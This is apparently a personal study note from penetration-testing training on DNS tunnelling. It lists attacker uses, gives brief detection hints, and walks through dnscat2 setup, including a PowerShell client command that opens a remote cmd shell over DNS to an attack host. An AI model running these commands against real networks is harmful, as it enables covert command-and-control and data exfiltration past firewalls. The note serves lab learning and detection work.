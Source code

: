 ```yaml
---
tags:
  - Tunnelling
  - Exploitation
---
```

| **Step**                                 | **Description**                                                                                                                                                                                                                                         |
| ---------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `1. Data Exfiltration`                   | As shown in [[#Identifying DNS Tunnelling]] DNS tunnelling can be helpful for attackers trying to get data out of our network without getting caught.                                                                                                   |
| `2. Command and Control`                 | Some malware and malicious agents will utilize DNS tunneling on compromised systems in order to communicate back to their command and control servers. Notably, we might see this method of usage in botnets.                                           |
| `3. Bypassing Firewalls and Proxies`     | DNS tunneling allows attackers to bypass firewalls and web proxies that only monitor HTTP/HTTPs traffic. DNS traffic is traditionally allowed to pass through network boundaries. As such, it is important that we monitor and control this traffic.    |
| `4. Domain Generation Algorithms (DGAs)` | Some more advanced malware will utilize DNS tunnels to communicate back to their command and control servers that use dynamically generated domain names through DGAs. This makes it much more difficult for us to detect and block these domain names. |

## Identifying DNS Tunnelling

 If you notice a good amount of text records from one host. This could indicate DNS tunnelling. Like ICMP tunnelling, attackers can and have utilized DNS forward and reverse lookup queries to perform data exfiltration. They do so by appending the data they would like to exfiltrate as a part of the TXT field.
 
 ![[3-DNSTraffic.webp]]

![[4-DNSTraffic.webp]]



## Tooling

### Dnscat2

[Dnscat2](https://github.com/iagox86/dnscat2) is a tunneling tool that uses DNS protocol to send data between two hosts. It uses an encrypted `Command-&-Control` (`C&C` or `C2`) channel and sends data inside TXT records within the DNS protocol. Usually, every active directory domain environment in a corporate network will have its own DNS server, which will resolve hostnames to IP addresses and route the traffic to external DNS servers participating in the overarching DNS system. However, with dnscat2, the address resolution is requested from an external server. When a local DNS server tries to resolve an address, data is exfiltrated and sent over the network instead of a legitimate DNS request. Dnscat2 can be an extremely stealthy approach to exfiltrate data while evading firewall detections which strip the HTTPS connections and sniff the traffic. For our testing example, we can use dnscat2 server on our attack host, and execute the dnscat2 client on another Windows host.

#### Installing dnscat2

```shell-session
git clone https://github.com/iagox86/dnscat2.git
```

```shell
git clone https://github.com/iagox86/dnscat2.git
cd dnscat2/server/
gem install bundler
bundle install
```
#### Usage

```shell-session
sudo ruby dnscat2.rb --dns host=10.10.14.18,port=53,domain=inlanefreight.local --no-cache
```

After running the server, it will provide us the secret key, which we will have to provide to our dnscat2 client on the Windows host so that it can authenticate and encrypt the data that is sent to our external dnscat2 server. We can use the client with the dnscat2 project or use [dnscat2-powershell](https://github.com/lukebaggett/dnscat2-powershell), a dnscat2 compatible PowerShell-based client that we can run from Windows targets to establish a tunnel with our dnscat2 server. We can clone the project containing the client file to our attack host, then transfer it to the target.

```shell-session
git clone https://github.com/lukebaggett/dnscat2-powershell.git
```


```powershell-session
Import-Module .\dnscat2.ps1
```

```powershell-session
Start-Dnscat2 -DNSserver 10.10.14.18 -Domain inlanefreight.local -PreSharedSecret 0ec04a91cd1e963f8c03ca499d589d21 -Exec cmd 
```
#### Listing dnscat2 Options

  DNS Tunnelling with Dnscat2

```shell-session
dnscat2> ?

Here is a list of commands (use -h on any of them for additional help):
* echo
* help
* kill
* quit
* set
* start
* stop
* tunnels
* unset
* window
* windows
```

We can use dnscat2 to interact with sessions and move further in a target environment on engagements.

#### Interacting with the Established Session

```shell-session
dnscat2> window -i 1
```